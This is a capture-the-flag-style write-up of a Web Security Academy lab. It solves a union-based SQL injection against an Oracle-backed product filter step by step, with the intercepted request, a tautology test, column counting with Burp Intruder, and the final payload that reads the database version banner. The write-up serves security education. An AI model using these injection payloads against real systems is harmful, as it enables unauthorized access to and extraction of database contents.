 
<p align="center">
  <img src="./screenshots/sql_logo.png" alt="sql_logo"/>
</p>

---

- 🎯 **Target:** SQL injection Lab - Querying the database type and version on Oracle
- 🧑‍💻 **Author:** sonyahack1
- 📅 **Date:** 05.10.2025
- 📊 **Difficulty:** APPRENTICE
- 📁 **Category:** Web - SQL injection (Union Based)

---


## 🔍 Request interception

> SQL injection vulnerability is in the product category filter functionality.

> I intercept the request to select an arbitrary filter (for example `pets`):

```http

GET /filter?category=Pets HTTP/2
Host: 0ae000df049fd3b9888b4dad003a001f.web-security-academy.net
Cookie: session=ywD3y9DTzSh2arJGEXIGyZfWQW2yEvto
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ae000df049fd3b9888b4dad003a001f.web-security-academy.net/filter?category=Pets
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

```

> To solve this lab I need to output the version of the database I'm using.

> I use `UNION-based` SQL injection to extract data.

> **Note:** `UNION` is an operator in the `SQL` query language that combines the results of two `SELECT` queries with the same number of columns and compatible data types.
> This way I can extract data from an arbitrary table.

> I check that `SQL` injection is possible:

```http

GET /filter?category=' or 1=1 -- HTTP/2

```
> Result:

![sqli](./screenshots/sqli.png)

> Ok. I determine the number of columns in the table. This is important because `UNION` requires that both parts of the `SELECT` query return the same number of columns.
> I use the `ORDER BY` operator, which is used to sort the query results by one or more columns

> I use `Intruder` to iterate through the columns.
> I generate a text file with numbers from `1 to 10` (for example, no more than 10 columns):

```bash

seq 1 10 > numbers.txt

```

> I start iterating over columns:

![intruder](./screenshots/intruder.png)
![intruder_payload](./screenshots/Intruder_payload.png)

> At position `3` the server returns an error:

![intruder_error](./screenshots/intruder_error.png)

> This means that there are `2` columns in the table.

> To display the Oracle database version, I use the query `SELECT banner FROM v$version`.

> Since there are `2` columns in the table, I add a stopper in the form of `null` so that the number of columns in the two `SELECT` queries matches.

```http

GET /filter?category=' UNION SELECT null,banner FROM v$version -- HTTP/2

```
> Result:

![db_version](./screenshots/db_version.png)

> Getting information about the Oracle Database version.

![solved_lab](./screenshots/solved_lab.png)
